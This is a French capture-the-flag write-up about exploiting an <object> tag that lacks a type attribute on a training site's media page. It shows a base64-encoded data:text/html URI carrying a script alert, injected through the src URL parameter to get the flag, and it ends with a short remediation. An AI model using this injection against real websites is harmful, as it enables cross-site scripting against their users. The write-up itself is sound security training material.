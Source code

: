 <h1 align="center">
object
</h1>

<p><b>Trouver la balise object : </b></p>

Cliquer sur le 3ieme logo de la NSA sur l'index du site.  
Une redirection se fait sur `http://<IP>/?page=media&src=nsa  
Inspecter la page. L'image est dans une balise `<object>` et non `<img>`.

<p><b> Caracteristiques de la balise <object></b></p>

```Cet élément est conçu pour insérer toute sorte de document. On spécifie de quelle sorte avec l'attribut type en indiquant le type mime, et la source du document avec l'attribut data en indiquant son URI.
Si le navigateur, ou un de ses plugins, sait interpréter ce document, il le fait sinon le contenu imbriqué est affiché.
Tout code HTML peut être insérer comme contenu alternatif, par exemple un lien vers le document, ou une image à la place d'une animation. Ce peut également être un autre object, on parle de "d'object imbriqués".```
On remarque que dans notre cas, la balise `<object>` n'as pas d'attribut type. Nous allons donc essayer d'exploiter ce manque.

<p><b> Recuperation du flag :</b></p>

Nous allons essayer d'inserer le script suivant a la place de l'image:
```
<script>
alert("hey");
</script>
```
Pour cela nous allons l'encoder en base 64, ce qui donne :
`PHNjcmlwdD4KYWxlcnQoImhleSIpOwo8L3NjcmlwdD4`
ensuite rajouter l'entete correspondant :  
`data:text/html;base64,PHNjcmlwdD4KYWxlcnQoImhleSIpOwo8L3NjcmlwdD4`
En remplacant le lien de l'image de la NSA par le code ci dessus nous avons bien un pop-up qui apparait.
Cette faille est donc exploitable.
Pour recuperer le flag, il suffit de remplacer le `nsa` de l'url par le code, ce qui donne :
`http://<IP>/?page=media&src="data:text/html;base64,PHNjcmlwdD4KYWxlcnQoImhleSIpOwo8L3NjcmlwdD4="`

<p><b> Solution : </b></p>
Mettre des balises plus adapte : ici la balise img aurait fait l'affaire
Ne pas oublier les attributs importants des balises.
